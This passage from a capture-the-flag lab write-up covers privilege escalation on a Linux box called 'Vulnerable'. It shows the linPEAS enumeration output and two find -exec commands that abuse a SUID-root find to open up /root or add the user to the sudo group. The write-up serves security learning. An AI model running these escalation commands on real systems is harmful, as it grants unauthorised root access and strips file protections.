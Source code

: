 ```
stoner@Vulnerable:~$ ls -la
total 520
drwxr-x--- 6 stoner stoner   4096 Apr 29 08:00 .
drwxr-xr-x 4 root   root     4096 Aug 22  2019 ..
drwx------ 2 stoner stoner   4096 Apr 29 07:57 .cache
drwxr-x--- 3 stoner stoner   4096 Apr 29 07:58 .config
drwx------ 2 stoner stoner   4096 Apr 29 07:59 .gnupg
drwxrwxr-x 2 stoner stoner   4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner     34 Aug 21  2019 .secret
stoner@Vulnerable:~$ cat .secret
You made it till here, well done.
```

## Finding exploit

Sending linPEAS through scp

```
scp -P 55007 /opt/scripts/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh stoner@$IP:/home/stoner
```
## Running linpeas

```
stoner@Vulnerable:~$ ls
linpeas.sh
stoner@Vulnerable:~$ chmod +x linpeas.sh
stoner@Vulnerable:~$ ./linpeas.sh
```
### Interesting Files

```
[+] SUID - Check easy privesc, exploits and write perms                                                                                                                                       
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid                                                                                                                 
-rwsr-xr-x 1 root   root        43K May  7  2014 /bin/ping6                                                                                                                                   
-rwsr-xr-x 1 root   root        39K May  7  2014 /bin/ping
-rwsr-sr-x 1 daemon daemon      50K Jan 15  2016 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-r-sr-xr-x 1 root   root       227K Feb  8  2016 /usr/bin/find
```

## Task 2c

```
find 
```

## Exploiting vunerability

```
/usr/bin/find . -exec chmod -R 777 /root \;
```
Or

```
/usr/bin/find . -exec usermod -aG sudo stoner \;
```
Now that the /root folder is accessible by all, simply cd in /root and read the flag.
